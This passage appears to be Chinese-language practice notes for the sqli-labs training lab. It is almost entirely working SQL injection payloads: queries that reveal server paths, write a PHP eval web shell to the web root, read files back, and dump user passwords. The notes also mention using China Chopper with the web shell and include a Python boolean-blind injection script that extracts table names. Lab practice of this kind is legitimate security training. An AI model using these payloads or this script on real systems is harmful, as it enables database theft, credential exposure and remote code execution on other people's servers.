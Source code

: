 

```
##通过其他地方获得文件路径
Less-2/?id=-1 union select 1,@@basedir,@@datadir --+
##联合查询
###导入
?id=1')) union select 1,2,'<?php @eval($_POST["cmd"]);?>' into outfile "D:\\ctf\\phpstudy\\PHPTutorial\\WWW\\sqli-labs-master\\ttt.php"--+
### 导出
id=1')) union select 1,load_file ('D:\\ctf\\phpstudy\\PHPTutorial\\WWW\\sqli-labs-master\\ttt.php'),'3' #'))
##报错注入
?id=1')) union select 1,group_concat(username),group_concat(password) from users into outfile 'c:\\xampp\\htdocs\\2.php' --+
```

之后用菜刀了解一句话木马即可。

### 8

 布尔型盲注

```
# encoding: utf-8
import requests

result = ""
url_template = "http://127.0.0.1/sqli-labs-master/Less-5/?id=2' and ascii(substr(({0}),{1},1))>{2} %23"
chars = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz_,-.@&%/^!~"
url_length = "http://127.0.0.1/sqli-labs-master/Less-5/?id=2' and length(({0})) >{1} %23"


def get_result_length(payload, value):
    for n in range(1, 100):
        url = url_length.format(payload, n)
        response = requests.get(url)
        length = len(response.text)
        if length > value:
            print("..data length is:"+str(n))
            return n


def get_db_name(data_length, payload, value):
    for i in range(1, data_length):
        for char in chars:
            url = url_template.format(payload, i, ord(char))
            response = requests.get(url)
            length = len(response.text)
            if length > value:  # 根据返回长度的不同来判断字符正确与否
                global result
                result += char
                print("…… data is :" + result)
                break


# 自定义 sql注入语句 payload   分割符 为0
payload = "select group_concat(table_name) from information_schema.tables where table_schema=database() "
# 根据正确访问时错误访问时返回页面文本长度的不同 来设置一个判断值
value = 706
data_length = get_result_length(payload, value) + 1
get_db_name(data_length, payload, value)
print(result)
```
